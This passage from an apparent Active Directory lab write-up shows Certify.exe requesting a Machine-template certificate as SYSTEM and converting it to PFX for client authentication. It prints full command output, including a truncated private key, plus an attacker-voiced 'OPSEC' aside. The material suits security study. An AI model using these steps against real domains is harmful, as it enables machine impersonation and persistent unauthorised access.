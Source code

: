 
Let's now reproduce this in our lab, the idea is as follows:
- Request a certificate from the CA (Certification Authority) based on the "Machine" template, which in its EKU (Enhanced Key Usage) allows Client Authentication by default.
- Convert the .pem file to .pfx using OpenSSL (<span style="color: red;">OPSEC NOTES</span>: Never use weak passwords for certificates 😑).

```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"Machine" /machine

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : NT AUTHORITY\SYSTEM
[*] No subject name specified, using current machine as subject

[*] Template                : Machine
[*] Subject                 : CN=SRV-01.CORP.LOCAL

[*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 22

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA0XOxnEqKbwpWnAOHKGHs...

-----END CERTIFICATE-----


[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```powershell
Get-PfxCertificate -FilePath .\srv01-A.pfx | select *

EnhancedKeyUsageList : {Client Authentication (1.3.6.1.5.5.7.3.2), Server Authentication (1.3.6.1.5.5.7.3.1)}
DnsNameList          : {SRV-01.CORP.LOCAL}
SendAsTrustedIssuer  : False
Archived             : False
Extensions           : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid...}
FriendlyName         :
IssuerName           : System.Security.Cryptography.X509Certificates.X500DistinguishedName
NotAfter             : 1/11/2026 1:50:33 AM
NotBefore            : 1/11/2025 1:50:33 AM
HasPrivateKey        : True
PrivateKey           : System.Security.Cryptography.RSACryptoServiceProvider
PublicKey            : System.Security.Cryptography.X509Certificates.PublicKey
RawData              : {48, 130, 5, 28...}
SerialNumber         : 5400000016747C52BDC9582CB5000000000016
SubjectName          : System.Security.Cryptography.X509Certificates.X500DistinguishedName
```